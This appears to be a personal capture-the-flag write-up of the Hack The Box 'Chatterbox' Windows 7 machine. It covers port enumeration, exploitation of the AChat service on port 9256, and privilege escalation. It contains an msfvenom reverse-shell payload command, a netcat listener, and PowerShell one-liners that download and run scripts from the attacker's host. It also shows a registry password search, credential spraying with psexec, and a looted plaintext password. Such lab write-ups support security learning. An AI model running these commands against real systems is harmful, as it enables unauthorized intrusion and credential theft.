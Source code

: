 # Enumeration 

OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
## open ports

135/tcp   open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
445/tcp   open  microsoft-ds syn-ack Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)                                          
49152/tcp open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
49153/tcp open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
49154/tcp open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
49155/tcp open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
49156/tcp open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
49157/tcp open  msrpc        syn-ack Microsoft Windows RPC                                                                                                   
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows  

## running full port scan
9256/tcp open  achat   AChat chat system

# Exploitation
## port 9256
![[Pasted image 20230110221329.png]]


# Foothold 
![[Pasted image 20230110221345.png]]
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=9001 -e x86/unicode_mixed  -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
change payload inside script with the new one
change target ip
![[Pasted image 20230110222051.png]]

start listener 
`nc -lvnp 9001`

![[Pasted image 20230110222207.png]]
upgraded shell by uploading nishang and running it

`powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/prettysafe.ps1')"`
# Privesc 

uploading Powerup to the target
`IEX(New-Object Net.WebClient).downloadString('http://10.10.16.2/PowerUp.ps1')`
`Invoke-AllChecks`

![[Pasted image 20230111005102.png]]

also can be found by looking into registries 
`reg query HKLM /f password /t REG_SZ /s`
![[Pasted image 20230110223147.png]]
Looks like password
^chatterboxuser

Trying to spray the creds we got and we are in as Administrator using psexec and we are in as nt authority 

![[Pasted image 20230111011259.png]]
 
# Alternative 
 creds are valid  so we can create a cred variable and get shell this way
```
$SecPass = ConvertTo-SecureString '<password>' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('<user>',$SecPass)

# grap reverse shell with powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadstring('http://10.10.16.2/shell.ps1')" -Credential $cred
```


# Loot

alfred and administrator  [creds](ChatterBox#^chatterboxuser) :
	Username: alfred - administrator 
	Password: Welcome1!



---
Tags: #ctf #HTB #Achat
Resources: [ChatterBox](https://app.hackthebox.com/machines/123) 